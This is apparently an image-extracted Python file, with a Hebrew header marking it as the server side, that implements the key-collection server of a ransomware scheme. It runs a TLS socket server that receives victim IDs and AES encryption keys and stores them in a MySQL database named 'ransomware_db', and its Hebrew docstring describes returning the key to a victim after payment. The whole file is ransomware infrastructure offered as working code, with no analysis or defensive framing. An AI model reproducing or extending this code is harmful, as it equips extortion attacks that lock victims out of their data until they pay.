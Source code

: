                                                                                                                                                                               -מי שעובר על הקוד שימו לב בבקשה זה צד השרת!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
import ssl
import socket
import mysql.connector

db = mysql.connector.connect(
    host="localhost",
    user="root",
    password="password",
    database="ransomware_db"
)
cursor = db.cursor()


server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_socket.bind(('localhost', 12345))
server_socket.listen(5)

context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile="cert.pem", keyfile="key.pem")

def save_key(client_id, key):
    """ שמירת מפתח הלקוח ב-MySQL """
    cursor.execute("INSERT INTO encryption_keys (client_id, aes_key) VALUES (%s, %s)", (client_id, key))
    db.commit()

def get_key(client_id):
    """ החזרת מפתח הצפנה ללקוח לאחר תשלום """
    cursor.execute("SELECT aes_key FROM encryption_keys WHERE client_id = %s", (client_id,))
    result = cursor.fetchone()
    return result[0] if result else None

with context.wrap_socket(server_socket, server_side=True) as ssl_server:
    print("SSL Server listening...")
    while True:
        client_socket, addr = ssl_server.accept()
        client_id = client_socket.recv(1024).decode('utf-8')
        key = client_socket.recv(1024)  
        save_key(client_id, key)
        client_socket.close()
